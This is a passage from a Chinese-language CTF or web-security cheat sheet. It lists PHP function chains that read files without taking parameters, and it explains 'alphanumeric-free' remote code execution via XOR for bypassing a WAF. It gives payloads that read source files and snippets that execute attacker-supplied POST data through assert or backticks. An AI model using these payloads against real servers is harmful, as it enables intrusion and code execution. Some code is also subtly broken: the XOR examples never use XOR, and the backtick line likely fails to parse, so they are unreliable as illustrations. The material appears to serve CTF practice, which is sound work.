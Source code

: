 **常用函数列表 (部分)：**

* **目录/文件扫描与定位：** `scandir()`, `getcwd()`, `dirname()`, `glob()`
* **数组指针与提取：** `current()`, `pos()`, `next()`, `end()`, `array_reverse()`, `array_pop()`
* **字符串与编码：** `strrev()`, `chr()`, `hex2bin()`, `base64_decode()`
* **信息获取：** `localeconv()` (可获取 `.`)
* **最终执行/读取：** `show_source()`, `highlight_file()`, `readfile()`, `file_get_contents()`, `include`

**利用链示例：**

* **读取当前目录下的随机文件名内容：**
    `show_source(array_rand(array_flip(scandir(current(localeconv())))));`
    * `current(localeconv())` 获取 `.` (点号)。
    * `scandir('.')` 列出当前目录。
    * `array_flip()` + `array_rand()` 随机选取一个文件名。
    * `show_source()` 显示该文件源码。

* **读取上级目录的文件：**
    `show_source(next(array_reverse(scandir(dirname(getcwd())))));`
    * `getcwd()` 获取当前工作目录。
    * `dirname()` 获取上级目录路径。
    * `scandir()` 列出上级目录内容。
    * `array_reverse()` 反转数组，使 `.` 和 `..` 在末尾。
    * `next()` 跳过 `.`，获取 `..` 的上一个文件/目录名（取决于目录内容）。

---

### 12. 无字母数字 RCE (异或运算绕过) 🎨

**核心原理：**

当 WAF 严格限制输入，不允许使用字母和数字时，可以通过 PHP 的位运算（尤其是异或 `^`）来构造出所需的字母和数字。PHP 在对字符串进行位运算时，会逐字节对字符的 ASCII 值进行操作。

**构造思路与执行：**

通过对非字母、数字的特殊字符（如 `(`, `)`, `[`, `]`, `~`, `!`, `@`, `#` 等）进行异或运算，可以得到目标字符。然后将这些字符拼接成函数名和参数字符串。

**利用示例 (PHP 5):**

```php
<?php
// 目标: assert($_POST['_']);

// 构造 "assert" -> ('['^'|') gives 'a', etc.
$a = "assert";
// 构造 "_POST"
$b = "_POST";

$c = $$b;      // 动态变量 $$b 等于 $_POST
$a($c['_']);  // 执行 assert($_POST['_'])
?>
```
**利用示例 (PHP 7):**

```php
<?php
// 目标: `$_POST['_']`; (反引号执行命令)

// 构造 "_POST"
$_ = "_POST";
// 构造 $__ = $_POST
$__ = $$_;

`$__['_']`; // 执行 `$_POST['_']`;
?>
```

---